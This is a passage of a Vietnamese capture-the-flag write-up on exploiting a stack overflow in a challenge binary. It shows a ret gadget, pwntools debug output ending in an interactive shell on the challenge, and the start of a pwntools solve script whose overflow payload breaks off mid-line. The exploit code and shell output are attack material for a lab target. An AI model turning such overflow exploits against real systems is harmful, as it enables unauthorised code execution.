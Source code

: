 Lệnh ret này lại bị lỗi =)) Với lại không hiểu tại sao trong stack lại xuất hiện input của lần 2 mình nhập vào nên chắc mình sẽ tìm cái ret nào đó trong file binary để sửa luôn lần nhập thứ 2 tránh bị xmm :(( 

```java
0x000000000000101a : ret
```
```java
[*] Switching to interactive mode
[DEBUG] Received 0x126 bytes:
    00000000  45 63 68 6f  32 3a 20 0a  43 43 43 43  43 43 43 43  │Echo│2: ·│CCCC│CCCC│
    00000010  43 43 43 43  43 43 43 43  43 43 43 43  43 43 43 43  │CCCC│CCCC│CCCC│CCCC│
    *
    00000110  43 43 43 43  43 43 43 43  43 43 43 43  43 43 43 e5  │CCCC│CCCC│CCCC│CCC·│
    00000120  c3 b6 a5 9a  7f 0a                                  │····│··│
    00000126
Echo2:
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\xe5ö\xa5\x9a\x7f
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x63 bytes:
    b'Dockerfile  challenge_patched\t   ld-2.35.so  solve.py\n'
    b'challenge   challenge_patched.i64  libc.so.6\n'
Dockerfile  challenge_patched       ld-2.35.so  solve.py
challenge   challenge_patched.i64  libc.so.6
$
```
full script :
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge_patched", checksec=False)
libc = ELF("./libc.so.6",checksec=False)

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    # gdb.attach(r, gdbscript='''
    # b *echo
    # c
    # ''')
    # input()

    #round 1
    payload = b'A'*279
    payload += b'\x4c'
 
```